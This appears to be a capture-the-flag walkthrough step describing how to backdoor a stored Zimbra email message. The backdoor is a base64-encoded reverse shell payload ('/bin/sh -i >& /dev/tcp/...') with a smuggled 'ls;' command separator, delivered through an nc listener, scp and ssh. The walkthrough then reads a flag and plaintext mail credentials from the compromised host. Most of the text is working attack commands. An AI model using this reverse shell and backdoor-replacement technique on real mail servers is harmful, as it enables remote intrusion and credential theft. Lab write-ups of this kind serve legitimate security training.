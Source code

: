 # PC3

1. Resume From [🗂 Mail Server](../10-Mail-Server/)
2. Check Emails: [🗂 Mail Server](../10-Mail-Server/08-store0/3/msg/0/258-3.msg)
3. Create a Reverse Shell Payload
```
ls;/bin/sh -i >& /dev/tcp/10.120.0.7/9999 0>&1;
```
4. Encode Base64 and Replace as `kerio_connect` attachment: [🗂 Mail Server](./04-258-3-backdoor.msg)
5. Listen On local System: `nc -l 0.0.0.0 9999`
6. Copy Backdoored Email into Server
```
scp -i "<private-key>" ./04-258-3-backdoor.msg  zimbra@mail.petromaz.ir:/opt/zimbra/store/0/3/msg/0
```
7. Login and Replace Email, Restart Zimbra
```
ssh -i "<private-key>" zimbra@mail.petromaz.ir

# inside ssh
cd /opt/zimbra/store/0/3/msg/0/
mv 258-3.msg 258-3.bak.msg
mv 04-258-3-backdoor.msg 258-3.msg

# restarting Zimbra
zmcontrol restart
```
8. You should Get Reverse Shell in `nc`, Read Flag
```
cat /flag.txt
MAZAPA_5377c347c7586e91d07250720b35cba7
```
9. Read `/read.py` and Get Username/Password
```
username = "savad-koohi@petromaz.ir"
password = "EmdQXL82YejA"
server = "mail.petromaz.ir"
```